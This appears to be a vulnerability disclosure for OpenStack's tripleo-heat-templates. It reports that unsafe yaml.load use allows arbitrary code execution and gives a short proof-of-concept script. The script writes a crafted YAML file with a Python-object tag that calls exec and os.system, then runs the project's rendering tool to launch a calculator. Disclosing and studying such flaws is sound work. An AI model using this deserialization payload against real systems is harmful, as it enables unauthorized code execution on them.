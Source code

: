 # Description
Heat templates for deploying OpenStack. Mirror of code maintained at opendev.org.
* **Vulnerability discription**
    untrusded loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept

1. run exploit.py
```python
# exploit.py
import os
os.system('git clone https://github.com/openstack/tripleo-heat-templates.git')
os.chdir('tripleo-heat-templates/tools/')
exp = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('overcloud-resource-registry-puppet.yaml','w+').write(exp)
os.system('''python render-ansible-tasks.py --output ./ --ansible-tasks ./ --roles-list sdfsd''')
```
![](https://cdn.discordapp.com/attachments/789769803770494996/793058166161539092/Screenshot_from_2020-12-28_15-39-30.png)
